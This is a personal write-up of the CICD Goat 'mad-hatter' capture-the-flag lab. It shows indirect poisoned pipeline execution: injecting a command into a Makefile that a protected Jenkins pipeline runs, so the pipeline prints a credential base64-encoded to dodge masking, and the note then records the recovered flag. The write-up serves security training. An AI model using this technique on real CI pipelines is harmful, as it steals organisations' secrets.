

---
Category:
  - CI/CD
Difficulty: Easy
Platform: CICD Goat
tags:
  - poisoned-pipeline-execution
  - i-ppe
status: 3. Complete
---
>[!quote]
>Jenkinsfile is protected? Sounds like an unbirthday party. Use your access to the *Wonderland/mad-hatter* repository to steal the flag3 secret.

Scenario:
- `Jenkinsfile`[^jenkinsfile] is protected: the pipeline is configured in a separate repository from where the application code is stored at. The attacker doesn’t have permission to trigger a pipeline with a modified Jenkinsfile.
- The attacker can read pipeline repository contents (*mad-hatter-pipeline*).

[^jenkinsfile]: [Jenkins pipeline & Jenkinsfile](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/Jenkins.md#Jenkins%20pipeline%20&%20Jenkinsfile)

Hint:
- Where’s the Jenkinsfile stored? Search for the repo name in the Wonderland organization, you might find some helpful repos.
- What commands are run by the Jenkinsfile?

Solution:
- [CICD-SEC-4 Indirect Poisoned Pipeline Execution (I-PPE)](../../Dev,%20ICT%20&%20Cybersec/Dev,%20scripting%20&%20OS/CICD%20security.md#CICD-SEC-4%20Poisoned%20Pipeline%20Execution)
- https://github.com/cider-security-research/cicd-goat/blob/main/solutions/mad-hatter.md

---

>[!summary]
>Even if we can't alter the Jenkinsfile and directly poison the pipeline, by inspecting the *mad-hatter-pipeline* repository we can notice a `make` command inside it. Because we have write capabilities inside *mad-hatter*, and the repository contains a `Makefile`, we can indirectly poison the pipeline by injecting arbitrary commands inside the *Makefile*.

*Wonderland/mad-hatter-pipeline/src/branch/main/Jenkinsfile*
```json
pipeline {
    agent any
    environment {
        PROJECT = "yagmail"
    }
    ...
    stage('make'){
            steps {
              withCredentials([usernamePassword(credentialsId: 'flag3', usernameVariable: 'USERNAME', passwordVariable: 'FLAG')]) {
                sh 'make || true'
              }
            }           
        }
```

*Wonderland/mad-hatter*
```bash
$ ls           
conftest.py  deploy.py  docs  LICENSE  Makefile  MANIFEST.in  README.md  README.rst  setup.cfg  setup.py  tests  tox.ini  yagmail
```

Cloned the mad-hatter repository, created a new brench, injected the arbitrary commands and pushed the new files:
```bash
$ git clone http://localhost:3000/Wonderland/mad-hatter
Receiving objects: 100% (43/43), 62.30 KiB | 7.79 MiB/s, done.

$ git checkout -b dppe
Switched to a new branch 'ippe'
$ nano Makefile
whoami:
        echo "${FLAG}" | base64

$ git commit Makefile -m "poisoned"
[dppe e90238f] poisoned
 1 file changed, 2 insertions(+), 1 deletions(-)

$ git push -u origin ippe
...
Total 3 (delta 2), reused 0 (delta 0), pack-reused 0
 * [new branch]      ippe -> ippe
branch 'ippe' set up to track 'origin/ippe'.
```

Opened a PR in order to trigger the pipeline:


Results in output:
```
...
Masking supported pattern matches of $FLAG
[Pipeline] {
[Pipeline] sh
+ make
echo "****" | base64
QUNENkU2QjgtMzU4NC00RjQzLUFCOUMtQUNEMDgwQjhFQkIyCg==
echo LAG | base64
TEFHCg==
```

>[!success]
>`ACD6E6B8-3584-4F43-AB9C-ACD080B8EBB2`